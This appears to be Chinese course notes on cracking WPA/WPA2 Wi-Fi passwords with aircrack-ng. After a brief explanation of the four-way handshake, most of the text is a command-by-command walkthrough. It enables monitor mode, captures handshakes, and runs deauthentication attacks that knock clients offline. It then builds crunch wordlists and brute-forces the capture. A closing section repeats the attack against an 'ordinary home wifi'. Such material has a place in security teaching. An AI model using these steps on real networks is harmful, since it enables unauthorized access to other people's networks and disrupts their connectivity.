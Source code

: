 # WPA-aircrack-ng渗透WPA加密

## 1.WPA概念介绍

WPA 全名 WI-FI Protected Access, 有WPA 和WPA2两个标准，是一种保护无线网络的安全协议。

WPA实现了IEEE802.11i标准的大部分，是在802.11i完备之前替代WEP的过度方案，后被WPA2取代。

由于WPA和WPA2都是基于802.11i，因此在技术层面几乎是相同的。主要区别在于WPA2要求支持更安全的CCMP。

## 2.工作原理

WPA和WPA2均使用802.11i中定义的四次握手，客户端（station）和接入点（AP）通过四次握手相互验证和协商名为成对临时密钥（Pairwise Transient Key, PTK）的会话密钥。PTK通过成对主密钥（Pairwise Master key, PMK）、AP随机数ANonce、STA随机数SNonce和双方MAC地址等计算生成。其中PMK由登陆密码等双方均已知的信息计算生成，而后续正常数据加密所使用的临时密钥（Temporal KEY, TK）即派生自PTK，各密钥、参数的关系如下：

![image-20211201175811088](https://img.gyxnb.top/img/image-20211201175811088.png)

四次握手的过程可概括如下：

（1）AP发送自己的随机数ANonce给STA

（2）STA生成随机数SNonce，计算出PTK，并将SNonce和信息完整性校验码MIC发送给AP

（3）AP收到SNonce，计算出PTK（此时双方都有PTK），将组密钥GTK加密后连同MIC发给STA

（4）STA收到GTK，安装PTK和GTK，发送ACK确认。AP收到确认后安装PTK。

![image-20211201175839342](https://img.gyxnb.top/img/image-20211201175839342.png)

## 3.wifi设置

### 1.打开wifi设置网站

```
http://192.168.1.1/                              
```

### 2.选择无线配置

![image-20211201175942316](https://img.gyxnb.top/img/image-20211201175942316.png)

### 3.选择加密方式

![image-20211201180006739](https://img.gyxnb.top/img/image-20211201180006739.png)

## 4.打造字典

### 1.crunch生成密码 

```
crunch 8 8 -t %%%%%,,, > pwd.txt
8:最小长度
8:最大长度
-t：定义输出格式
,:代表大写字母
%:代表数字
^:代表符号
14GB大字典
```

查看字典

```
tail pwd.txt
```

### 2.手工打造

```
vi passwd.txt

12456
sadasdas
SXiooo1
16330XSX
12345678
```

## 5.渗透步骤

### 1.查看网卡

```
ip a
```

### 2.开启监听模式

```
airmon-ng start wlan0
```

### 3.扫描wifi

```
airodump-ng wlan0mon
```

### 4.抓包保存

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 5.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a D8:24:BD:79:18:0B -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

![image-20211201180247068](https://img.gyxnb.top/img/image-20211201180247068.png)

### 6.破解wifi

```
aircrack-ng -w /root/wifi/passwd.txt wpa-1-01.cap
```

![image-20211201180327419](https://img.gyxnb.top/img/image-20211201180327419.png)

### 7.使用大字典破解

```
aircrack-ng -w /root/wifi/pwd.txt wpa-1-01.cap
```

![image-20211201180351522](https://img.gyxnb.top/img/image-20211201180351522.png)

### 8.不指定字典破解

```
crunch 8 8 -t %%%%%,,, | aircrack-ng wpa-1-01.cap -e cisco-1809 -w -
```

![image-20211201180447549](https://img.gyxnb.top/img/image-20211201180447549.png)

![image-20211201180502673](https://img.gyxnb.top/img/image-20211201180502673.png)

## 6.渗透普通家用wifi

### 1.抓包

```
airodump-ng wlan0mon -c 1 --bssid 50:21:EC:97:BB:80 -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 2.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a 50:21:EC:97:BB:80 -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

### 3.破解wifi

```
aircrack-ng -w /root/wifi/passwd.txt wpa-1-01.cap
```



## 7.课程小结

参考：课后笔记

